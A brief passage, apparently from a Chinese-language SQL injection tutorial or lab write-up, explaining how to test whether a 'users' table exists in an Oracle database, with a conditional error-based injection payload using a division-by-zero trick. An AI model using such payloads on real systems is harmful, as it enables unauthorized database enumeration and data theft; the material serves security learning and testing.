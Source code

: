 ![img](assets/%E5%9B%BE%E7%89%87%2061.png) 

### 2.13.4. **判读是否存在users表**

这里页面正常，证明是存在users表的。

```
 WHERE ROWNUM = 1 用于限定仅仅返回一行数据
```

```
payload：'||(select case when (1=2) then to_char(1/0) else '' end from users where rownum = 1)||'
```
